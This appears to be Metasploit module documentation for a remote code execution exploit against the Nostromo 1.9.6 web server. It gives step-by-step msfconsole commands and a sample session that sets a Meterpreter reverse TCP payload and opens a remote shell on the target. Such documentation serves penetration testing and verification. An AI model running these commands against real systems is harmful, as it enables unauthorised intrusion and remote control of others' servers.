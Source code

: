## Vulnerable Application

Verified against:

* Nostromo 1.9.6 on Linux

Nostrom sources can be downloaded from http://www.nazgul.ch/dev_nostromo.html

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/nostromo_code_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: `set lhost <ip>`
  9. Do: `exploit`
  10. You should get a shell.

## Scenarios

Example utilizing nostromo 1.9.6 on Ubuntu Linux.

```
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > set rhosts 192.168.1.9
rhosts => 192.168.1.9
msf5 exploit(multi/http/nostromo_code_exec) > set rport 8000
rport => 8000
msf5 exploit(multi/http/nostromo_code_exec) > check
[+] Version: nostromo 1.9.6
[+] 192.168.1.9:8000 - The target is vulnerable.
msf5 exploit(multi/http/nostromo_code_exec) > set target 0
target => 0
msf5 exploit(multi/http/nostromo_code_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Sending stage (985320 bytes) to 192.168.1.10
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.9:52374) at 2019-10-21 21:12:22 +0200
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : nostromo.local
OS           : Ubuntu 18.04 (Linux 4.15.0-62-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
```
